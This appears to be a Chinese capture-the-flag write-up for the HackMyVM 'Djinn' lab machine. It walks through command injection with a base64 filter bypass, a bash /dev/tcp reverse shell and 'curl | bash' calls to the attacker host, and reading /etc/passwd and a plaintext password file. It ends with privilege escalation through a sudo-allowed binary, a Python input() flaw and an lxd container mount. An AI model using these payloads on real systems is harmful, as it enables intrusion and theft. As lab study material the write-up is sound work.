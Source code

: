 # Djinn

2025.02.15 https://hackmyvm.eu/machines/machine.php?vm=Djinn

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
1337/tcp open  waste
7331/tcp open  swx
```

ftp 可以匿名登陆，将其内容全部下载后查看。

```
nitu:81299

oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.

@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
```

说 1337 端口上有一个游戏，使用 nc 进行连接，发现是个计算游戏，但是好像没看出什么漏洞，估计是个兔子洞。

在看 7331 这个端口，是个 web 页面，源码中也没什么信息，使用 gobuster 进行扫描，发现了 http://192.168.5.40:7331/wish 这里实现命令执行：

```
curl --data-urlencode "cmd=whoami" http://192.168.5.40:7331/wish
```

直接在 kali 上建立监听，然后执行反弹：

```
nc -lvnp 8888
curl --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'" http://192.168.5.40:7331/wish
```

这里不能执行，显示 Wrong choice of words 应该是后台有过滤，需要绕过，尝试用 base64 进行绕过：

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish

root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish
```

对下面的代码进行 base64：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==
```

然后执行：

```
curl --data-urlencode "cmd=echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==|base64 -d|bash" http://192.168.5.40:7331/wish
```

这时在 kali 上得到了反弹的 shell：

```
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

然后发现了一个用户登陆凭据：

```
www-data@djinn:/home/nitish$ cat .dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

su 切换到 nitish 用户，得到了 user flag：

```
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```

sudo -l 发现 (sam) NOPASSWD: /usr/bin/genie 可以直接提权到 sam 用户：

```
sudo -u sam /usr/bin/genie -c 'curl http://192.168.5.3/5-3/8888.sh|bash'
```

但是出现提示：Pass your wish to GOD, he might be able to help you. 应该是有过滤。尝试找到更多的命令帮助 man genie 发现了一个参数 -cmd ：

```
-cmd
You know sometime all you new is a damn CMD, windows I love you.
```

sudo -u sam genie -cmd whoami 执行后，得到了 sam 权限，sudo -l 发现另外的命令： (root) NOPASSWD: /root/lago , 但是没有执行权限。

发现 sam 用户属于 lxd 用户组，想着借助 lxd 提权，但是提示有问题：

```
Error: Unable to read the configuration file: open /home/nitish/.config/lxc/config.yml: permission denied
```

发现在 sam 目录中有一个 .pyc 文件，将其反编译，得到源码：

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

sudo -l 发现 (root) NOPASSWD: /root/lago ，先尝试执行：

```
sudo -u root /root/lago
```

发现程序显示的内容和上面的 pyc 代码反编译出来的一致，找到执行逻辑，直接得到了 root 权限：

```
sam@djinn:/home/sam$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
lago  root.txt
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```

```
find / -name lxc 2>/dev/null

cd /tmp

wget http://192.168.5.3/scripts/lin/lxc/alpine-v3.13-x86_64-20210218_0139.tar.gz

/usr/bin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage

/usr/bin/lxc image list

/usr/bin/lxc init lxcimage ignite -c security.privileged=true  # 这句话执行时会报错，提示先创建pool，就按照下面代码继续执行

/usr/bin/lxc storage create pool dir
/usr/bin/lxc profile device add default root disk path=/ pool=pool
/usr/bin/lxc init lxcimage ignite -c security.privileged=true
/usr/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/bin/lxc start ignite
/usr/bin/lxc exec ignite /bin/sh
```
